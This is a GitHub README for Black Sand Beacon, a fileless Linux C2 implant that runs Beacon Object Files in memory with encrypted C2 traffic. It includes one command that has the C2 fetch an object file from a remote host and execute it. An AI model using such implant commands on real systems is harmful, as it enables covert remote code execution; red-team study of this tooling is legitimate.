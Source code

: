 # 🌋 Black Sand Beacon

<img width="720" height="720" alt="image" src="https://github.com/user-attachments/assets/fb294783-0f5a-46d3-8392-98993fa6c303" />


Black Sand Beacon — a lightweight, memory-resident micro beacon or implant for the LazyOwn RedTeam Framework — is the first offensive platform to deliver true native BOF (Beacon Object File) support for Linux. Inspired by the Windows-based Black Basalt Beacon, it enables red teams to write position-independent, fileless post-exploitation modules in pure C—no assembly required. Unlike traditional Linux payloads that rely on shellcode, interpreted scripts, or full binary deployment, Black Sand executes relocatable ELF objects directly in memory, resolving symbols and applying relocations on-the-fly. This breakthrough brings the agility, safety, and developer experience of Cobalt Strike–style BOFs to Linux for the very first time.

- Command execution
- Bof Execution
  - issue_command_to_c2 linux bof:https://10.10.14.57/whoami.x64.o

## Linux ELF BOF Loader - First Native C Implementation

**Background**: After implementing COFFLoader3 (Windows COFF with DJB2 hashing) 
and BlackBasalt C2, this represents the first fully native C implementation 
of a Cobalt Strike-style beacon for Linux with complete ELF BOF support.

## Key Features
- ✅ Native C (no Go/Rust runtime)
- ✅ Full ELF relocation support (R_X86_64_64/32/PC32/PLT32)
- ✅ Automatic trampoline generation for long jumps
- ✅ System V ABI compliant (variadic function support)
- ✅ Beacon API compatible (BeaconPrintf, BeaconOutput)
- ✅ AES-256-CFB encrypted C2 communication

## Technical Innovations
1. **Trampoline Cache System**: Solves Linux address space challenges
2. **Stack Alignment**: Proper handling of movaps/variadic functions
3. **Symbol Resolution**: Dynamic symbol table with fallback

## Credits
- Inspired by TrustedSec's COFFLoader (Windows)
- Built upon experience with COFFLoader3 and BlackBasalt beacon

## Comparison
| Feature | This Project | Sliver | Mythic | CrossC2 |
|---------|--------------|--------|--------|---------|
| Language | C (native) | Go | Rust | Closed |
| Open Source | ✅ | ✅ | ✅ | ❌ |
| Standalone | ✅ | ✅ | ✅ | Needs CS |
